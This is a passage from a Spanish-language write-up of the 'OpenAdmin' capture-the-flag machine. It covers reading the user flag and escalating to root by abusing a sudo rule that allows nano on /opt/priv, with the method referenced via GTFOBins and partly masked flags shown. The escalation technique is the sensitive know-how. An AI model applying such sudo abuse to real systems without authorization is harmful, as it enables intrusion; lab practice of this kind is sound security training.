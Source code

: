 ```bash
```
Y pa' dentro.

A partir de aquí ya podríamos ver la flag user.txt en el directorio home de joanna:

```bash
joanna@openadmin:~$ cat user.txt

c9b2cf07d4XXXXXXXXXXXXXX0c81b5f

```
# root.txt

Vuelvo a enumerar el sistema y me encuentro con esto:

```bash
joanna@openadmin:~$ sudo -l

Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

El usuario joanna puede ejecutar nano para editar el archivo /opt/priv con privilegios de root.

Yo aqui estuve estancado un rato porque pensaba que tenia algo que ver con el archivo priv. Pero no.

Nano tiene una opcion para ejecutar comandos, y estamos corriendo nano como usuario root, así que obtener una shell es sencillo.

Yo en este caso usé [GTFObins](https://gtfobins.github.io/){:target="\_blank"}{:rel="noopener nofollow"} para ver como era el procedimiento:

![navegador6](https://user-images.githubusercontent.com/67548295/124475302-13f8c900-dd91-11eb-8d09-1994a0355598.png)

Hacemos este procedimiento ejecutando nano con sudo (sudo /bin/nano /opt/priv) y ya seríamos root y podríamos ver la flag:

```bash
# id

uid=0(root) gid=0(root) groups=0(root)

# cat /root/root.txt

2f907ed450XXXXXXXXXXX5b561
```

# Opinión

La máquina era de dificultad easy pero sin embargo me ha gustado, ha incluido varios conceptos y me ha permitido repasar.

